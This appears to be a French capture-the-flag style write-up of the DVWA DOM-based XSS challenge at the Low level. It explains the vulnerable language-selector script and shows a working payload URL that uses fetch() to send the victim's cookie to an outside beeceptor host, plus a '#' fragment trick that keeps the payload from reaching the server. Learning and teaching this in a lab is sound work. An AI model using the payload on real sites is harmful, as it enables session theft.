








# Niveau "Low"

Ce challenge propose de pouvoir choisir la langue désirée parmi une liste déroulante :


L'action de modification de la langue est une requête **`GET`** :



Voici la requête visualisée via Burp :



Je modifie alors directement la valeur de ce paramètre en injectant un script :



Cela fonctionne et ressemble fortement à une XSS réfléchie. Il est possible d'aller plus loin en récupérant le jeton de session de la victime (authentifiée) :

```http
http://192.168.56.203:8080/vulnerabilities/xss_d/?default=%3Cscript%3Efetch(%27https://domxss.free.beeceptor.com?cookie=%27+document.cookie);%3C/script%3E
```



C'était plutôt simple puisque le serveur n'effectue aucun filtrage. Mais quelle est la différence entre la faille XSS basée sur le DOM (DOM XSS) et la XSS réfléchie ?

La XSS DOM s'effectue en local au sein du navigateur lui-même, très souvent quelques lignes de javascript modifiant le DOM à la volée. Dans le cas du challenge DVWA, la liste déroulante est mise à jour par le Javascript suivant (visible dans le code HTML) :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
  </select>
	<input type="submit" value="Select" />
</form>
```

La ligne 4, 5 et 6 récupèrent la valeur du paramètre nommé `default` puis la renseigne en tant que première valeur de la liste déroulante. Un exemple pour une valeur aléatoire :



Si le script récupère directement la valeur dans l'URL saisie par l'utilisateur, à quoi sert l'envoi de ce paramètre au serveur ?

Réponse : à rien. D'ailleurs il est optionnel car il faut bien comprendre que dans une faille XSS basée sur le DOM la payload malicieuse n'est pas présente dans la réponse HTTP du serveur.

Afin de mieux cerner ce concept, il est possible de remplacer le `'?'` du paramètre par un fragment `'#'`. Le fragment a l'avantage de ne pas être envoyé au serveur :



Pour preuve, voici la requête associée :



Le vol de cookie va par contre fonctionner de la même façon, mais cela permet de contourner tous les contrôles implémentés côté serveur (si présents) :


